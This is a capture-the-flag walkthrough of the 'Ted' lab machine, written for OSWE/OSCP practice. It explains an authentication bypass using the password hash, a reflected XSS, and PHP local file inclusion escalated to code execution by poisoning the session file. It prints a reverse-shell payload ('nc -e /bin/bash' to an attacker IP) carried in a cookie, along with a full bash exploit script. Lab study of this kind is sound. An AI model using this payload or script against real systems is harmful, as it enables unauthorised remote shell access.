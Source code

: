 ```yaml
---
title: "HTB and Vulnhub: Ted Walkthrough"
date: 2020-02-10 12:30:00 +0100
categories: [Web Exploitation, OSWE]
tags: [certifications, offsec, web, ctf]     # TAG names should always be lowercase
---
```


### Ted - Authenticated Local File Inclusion

Within this walkthrough, I will skip any part not related to the web application exploitation, but for sake of consistency I would briefly explain what (and why) I skip.

#### Intro

Ted is really a simple web application. The application is made of only 5 PHP files, so not even close to be an OSWE-like challenge, but it's really worth to be done for guys doing OSCP and OSCE as well. The vulnerability resides in the authenticated part of the application, which is possible to bypass due to its silly login implementation.

#### Vulnerability Discovery

We'll start looking at the index.php file, which contains just a login form, with a post action to authenticate.php 

```html
<form action="authenticate.php" method="post">
```

##### Authentication Bypass

Reviewing the authenticated.php file, it's possible to see that the login functionality seems to be securely using prepared statements:

```php
<?php
// Prepare our SQL, preparing the SQL statement will prevent SQL injection.
if ($stmt = $con->prepare('SELECT id, password FROM accounts WHERE username = ?')) {
    // Bind parameters (s = string, i = int, b = blob, etc), in our case the username is a string so we use "s"
    $stmt->bind_param('s', $_POST['username']);
    $stmt->execute();
    // Store the result so we can check if the account exists in the database.
    $stmt->store_result();
}

if ($stmt->num_rows > 0) {
    $stmt->bind_result($id, $password);
    $stmt->fetch();
?>
```

However, a very silly mistake is made into checking the user password after fetching:

```php
<?php
if ($_POST['password'] ==  $password) {
            // Verification success! User has loggedin!
    ...
} elseif ($_POST['password'] == "admin") {
            echo "<p>Password hash is not correct, make sure to hash it before submit.</p>";
} else {...}
?>
```

Does that actually mean that the hashed version of admin is the right password?
We can access the database directly on Ted, using the credentials provided in `authenticate.php` below:

```php
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'user';
$DATABASE_PASS = 'password';
$DATABASE_NAME = 'dbname'
```

Let's firstly see with hash is stored in the database, with the following command:

```bash
mysql -uuser -ppassword dbname -e 'select password from accounts where username="admin";' 2>/dev/null | grep -P "[A-Z0-9]+
```
It seems like a sha256 hash; to confirm that, it sufficient to run the following script directly on Ted:

```bash
#!/bin/bash
# Retrieve the hash from the DB
dbhash=$(mysql -uuser -ppassword dbname -e 'select password from accounts where username="admin";' 2>/dev/null | grep -P "[A-Z0-9]+")
# Generate the sha256 of "admin" in uppercase, to match the case of the DB hash
hash=$(printf admin | sha256sum | awk '{print toupper($1)}')
# Compare the two hashes
if [[ "$dbhash" == "$hash" ]]; then
    echo "TRUE"
else
    echo "FALSE"
fi
```

We can now login successfully, so we can start reviewing the authenticated part of the code. Within the `authenticate.php` file, it is possible to see that just after login the user is redirected to `home.php`.

```php
<?php
if ($_POST['password'] ==  $password) {
    ...
    header('Location: home.php');
```

##### Local File Inclusion

Analysing the `home.php`, we can immediately identify at least two vulnerabilities (there is another one but we will talk about it later):

```php
<?php
1. if (isset($_POST['search'])) {
2.     echo "Showing results for ".$_POST['search'].":";
3.     ...
4. } 
5. include($_POST['search']);
```

* At line 2: The search parameter value is reflected back to the user without any prior validation, potentially resulting in a Cross-Site-Scripting (XSS) (Not really important for this exercise)
* At line 5: The search parameter value is included in the page, allowing us to include a local file. To test it, it's enough to insert in the search box `../../../etc/passwd`, the content of the passwd file will be shown.

##### Exploitation

A small note on PHP LFI to RCE:

>There are multiple ways to achieve RCE from LFI in PHP, to exploit Ted it is necessary to have an understanding on how this process works. There are files
on the filesystem which an attacker can modify even not having direct access to the machine, that are the log files. For example, it is possible to write php code in apache access.log with a crafted request, or to the auth.log with a crafted ssh login attempt, and so on. However, these files are usually not accessible to the www-data user, hence not really usable. For a brief list of all the techniques that can be used to achieve RCE, I would suggest going to the following site: [LFI-RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

So, it's only necessary to find the correct file or technique to use. Luckily, seeing the code make this process fairly easy. Indeed, something at the very beginning of the `home.php` file should capture our attention, as for below snippet:

```php
1. <?php
2.    session_start();
3.    if (!isset($_SESSION['loggedin'])) {
4.        header('Location: index.html');
5.        exit();
6.    }
7.    $_SESSION['user_pref'] = $_COOKIE['user_pref']; // Injection point
8. ?>
```

It may not be immediately obvious, if you don't recall how sessions are maintained in PHP. The `$_SESSION` object, indeed, is stored as a file under a predefined path (in this case `/var/lib/php/sessions/`), and name, that is usually obtained concatenating the sess_ prefix with the PHPSESSID value (i.e. `sess_0oqh1580kqa1q9s4srsbnue2b0`).

For that reason, as we can control a value in the $_SESSION object, we can use that to inject a PHP payload in the session file.

If we add the cookie `user_pref=<?php system('nc -e /bin/bash 192.168.226.129 443')?>` to our first call to `home.php` after login, and then we inspect the content of the relative session file, it will look like that:

```bash
root@ubuntu:/var/lib/php/sessions# cat sess_hrcagu6l6tdqfunma6ftltkvj3
loggedin|b:1;name|s:5:"admin";id|i:1;user_pref|s:52:"<?php system('nc -e /bin/bash 192.168.226.129 443')?>";
```

Summarising, in order to exploit the application, we'll undertake the following steps:

1. Login into the application
2. Inject a PHP backdoor in the session file
3. Trigger the backdoor with the LFI vulnerability

The completed exploit:

```bash
#!/bin/bash

proxy="-x http://127.0.0.1:8080"
backdoor="user_pref=<?php system('nc -e /bin/bash 192.168.226.129 443')?>"

echo "[+] Logging In";
cookie=$(curl -ksi -X POST -H "Cookie: PHPSSESID=$cookie" --data-binary 'username=admin&password=8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918'  'http://ted.local/authenticate.php' $proxy | grep 'PHPSESSID' |  awk -F"=" '{print $2}' | tail -n 1 | awk -F";" '{print $1}')
sleep 1
echo "[+] Injecting Backdoor";
curl -ksi -X GET 'http://ted.local/home.php' -H "Cookie: PHPSESSID=$cookie; $backdoor" $proxy &>/dev/null
echo "[+] Getting evil shell..";
sleep 1
curl -ksi -X POST -H "Cookie: PHPSESSID=$cookie; $backdoor" --data-binary "search=../../../var/lib/php/sessions/sess_$cookie" 'http://ted.local/home.php' $proxy &>/dev/null
echo "[+] Done!";
```

#### Conclusions

Ted was somehow a funny machine, however, the small number of files to analyse, and the lack of complexity within the code, made it not enough of a challenge comparing it to the OSWE.
